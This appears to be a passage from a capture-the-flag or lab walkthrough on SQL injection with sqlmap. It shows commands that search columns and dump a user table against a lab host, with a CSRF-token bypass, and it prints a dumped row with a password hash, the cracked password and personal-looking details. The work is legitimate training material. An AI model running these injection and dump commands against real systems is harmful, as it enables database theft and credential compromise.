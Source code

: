 This basically means that everything accessible will be retrieved, potentially running for a very long time. We will need to find the data of interest in the output files manually.

**Questions**

What's the name of the column containing "style" in it's name? (Case #1)

```bash
sqlmap -u "http://83.136.254.199:51959/case1.php?id=1" --search -C style
columns LIKE 'style' were found in the following databases:
Database: information_schema
Table: ROUTINES
[1 column]
+-----------------+------------+
| Column          | Type       |
+-----------------+------------+
| PARAMETER_STYLE | varchar(8) |
+-----------------+------------+
```

What's the Kimberly user's password? (Case #1)

```bash
#use burpsuite to intercept token
#use fiefox inspect -> network -> request (to see token name)
sqlmap -u "http://83.136.254.199:51959/case8.php" --data="id=1&t0ken=0RVSeU89WY1t7DOzwz3pQzjeJo5A9gLBdF54XAtAC4" --csrf-token="t0ken" --batch --dump
| 6  | 5143241665092174 | KimberlyMWright@gmail.com   | 440-232-3739 | Kimberly Wright   | 3136 Ralph Drive       | June 18 1972      | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)      | Electrologist                                     |
Enizoom1609
```
